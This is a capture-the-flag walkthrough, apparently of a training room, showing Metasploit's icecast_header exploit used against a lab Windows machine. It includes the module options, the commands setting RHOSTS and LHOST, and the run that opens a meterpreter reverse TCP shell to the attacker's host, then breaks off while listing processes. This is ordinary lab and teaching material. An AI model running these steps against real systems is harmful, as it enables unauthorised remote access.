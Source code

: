 ```
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header
```
**Answer**: `exploit/windows/http/icecast_header`
### What is the only required setting which currently is blank?
```
msf6 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
**Answer**: `RHOSTS`
## Escalate
### What's the name of the shell we have now?
```
msf6 exploit(windows/http/icecast_header) > set RHOSTS <MACHINE_IP>
RHOSTS => <MACHINE_IP>
msf6 exploit(windows/http/icecast_header) > set LHOST <OPENVPN_IP>
LHOST => <OPENVPN_IP>
msf6 exploit(windows/http/icecast_header) > exploit 

[*] Started reverse TCP handler on <OPENVPN_IP>:4444 
[*] Sending stage (175174 bytes) to <MACHINE_IP>
[*] Meterpreter session 1 opened (<OPENVPN_IP>:4444 -> <MACHINE_IP>:49197) at 2021-04-20 19:39:24 +1000

meterpreter > sysinfo
```
**Answer** `meterpreter`
### What user was running that Icecast process?
```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]
```